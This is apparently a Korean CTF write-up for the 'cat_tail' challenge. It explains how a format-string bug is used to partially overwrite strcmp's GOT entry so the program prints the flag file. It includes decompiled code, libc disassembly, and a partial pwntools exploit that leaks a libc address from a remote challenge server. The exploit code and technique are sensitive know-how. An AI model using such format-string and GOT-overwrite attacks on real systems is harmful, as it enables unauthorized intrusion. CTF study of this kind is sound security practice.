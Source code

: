 ```cpp
          printf("\t\tbuffer: [%s]", v8);
      }
      ++v1;
    }
  }
```

flag 파일을 출력할 수 있는 부분을 보니까, 파일이름이 flag 면 출력해주지 않는데,

strcmp 가 무조건 0이아닌 다른 값을 반환하게 하면 조건문도 잘 돌아가고,

파일명이 flag 일 때도 파일내용을 출력하게 해줄 수 있었다.

FSB를 발생시킬 수 있는 배열 크기가 작아서 strcmp 함수 전체를 덮지는 못했다.

그래서 libc database 에서 맞는 라이브러리 3개정도 가져와서 아이다로 strcmp 부분을 분석했다.

```
.text:00000000000AC0D0 sub_AC0D0       proc near               ; DATA XREF: strcmp+46↑o
.text:00000000000AC0D0                                         ; __libc_ifunc_impl_list+10BA↓o
.text:00000000000AC0D0 ; __unwind {
.text:00000000000AC0D0                 endbr64
.text:00000000000AC0D4                 mov     ecx, esi
.text:00000000000AC0D6                 mov     eax, edi
.text:00000000000AC0D8                 and     rcx, 3Fh
.text:00000000000AC0DC                 and     rax, 3Fh
.text:00000000000AC0E0                 cmp     ecx, 30h ; '0'
.text:00000000000AC0E3                 ja      short loc_AC130
```

이 함수가 strcmp@got 에 적혀있는 곳인데, 하위 2바이트는 한 번에 덮을 수 있으니

```
.text:00000000000AD4FC                 sub     eax, ecx
.text:00000000000AD4FE                 retn
```

이 부분으로 리턴하게 해서 0이 아닌 다른값이 나오도록 했다.

```python
from pwn import *
import subprocess
import sys

slog = lambda s,n:log.info(": ".join([s,hex(n)]))
context.binary = binary = "./cat_tail"
library="./libc1.so"
# context.log_level='debug'
context.arch="amd64"
b=ELF(binary,checksec=False)
if '1' in sys.argv:
    r = remote("3.39.67.50", 5334)
    lib=ELF(library,checksec=False)
else:
    r = b.process()
    lib = b.libc
r.sendlineafter(">>> ","3")
r.sendlineafter(">>> ","%43$p")

r.recvuntil("Your Input: \x1b[32m")
libc=int(r.recvn(14),16)-lib.sym['__libc_start_main']
libc=libc&~0xfff
slog("libc_ret",libc)
r.sendline()

r.sendlineafter(">>> ","3")
r.sendlineafter(">>> ","%45$p")

```